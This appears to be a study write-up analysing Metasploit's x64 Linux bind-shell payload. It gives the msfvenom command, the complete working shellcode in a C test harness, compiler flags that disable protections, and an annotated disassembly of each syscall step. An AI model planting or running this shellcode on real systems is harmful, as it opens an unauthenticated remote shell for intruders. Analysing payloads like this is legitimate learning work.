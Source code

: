 # Bind Shell

The next payload is the shell_bind_tcp payload which listens on a specified socket and spawns a shell upon a received connection.

```
msfvenom -p linux/x64/shell_bind_tcp lport=4444 -f c
```

Placed the shellcode into a C program for testing 
```
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
"\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
"\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
"\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
"\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

(*(void(*)()) shellcode)();

```

Compiled as usual:
```
 gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

# Analysis

1. Create a socket

    ```
    push   0x29  ; sys_socket
    pop    rax
    cdq    ; Clear rdx
    push   0x2 ; AF_INET
    pop    rdi
    push   0x1 ; SOCK_STREAM
    pop    rsi
    syscall 
    xchg   rdi,rax ; save rax in rdi
    ```

2.  Create a struct_sockaddr = sockaddr = {AF_INET; PORT; 0x0; 0x0} and bind the created socket

    ```
    push   rdx
    mov    DWORD PTR [rsp],0x5c110002 ; put port and AF_INET in the struct
    mov    rsi,rsp ; rsi points to the struct
    push   0x10 ; Size of the struct
    pop    rdx ; rdx now contains the size of the struct

    ; Bind
    push   0x31 ; SYS_BIND
    pop    rax
    syscall
    ```

3. Put the socket in listening mode

    ```
    push   0x32 ; SYS_LISTEN
    pop    rax
    syscall
    ```

4. Accept

    ```
    xor    rsi,rsi
    push   0x2b ; SYS_ACCEPT
    pop    rax
    syscall
    xchg   rdi,rax ; put the new socket in rdi
    ```
    

5. Dup2-loop to duplicate the file descriptors (stdin, stdout, stderr)

    ```
    push   0x3 
    pop    rsi
    dec    rsi ; start with stderr (2)
    push   0x21 ; dup2 syscall
    pop    rax
    syscall

    loop:
        dec    rsi
        push   0x21 ; dup2
        pop    rax
        syscall
        jne    loop

    ```

6. Execve('/bin/sh', ['/bin/sh'], 0);

    ```
    push   0x3b ; execve syscall number
    pop    rax
    cdq  ; clear rdx
    movabs rbx,0x68732f6e69622f ; /bin/sh in hex
    push   rbx
    mov    rdi,rsp ; rdi points to /bin/sh on the stack
    push   rdx ; put null on the stack
    push   rdx
    push   rdi
    mov    rsi,rsp ; rsi points to a pointer to /bin/sh to work as (argv **)
    syscall

    ```

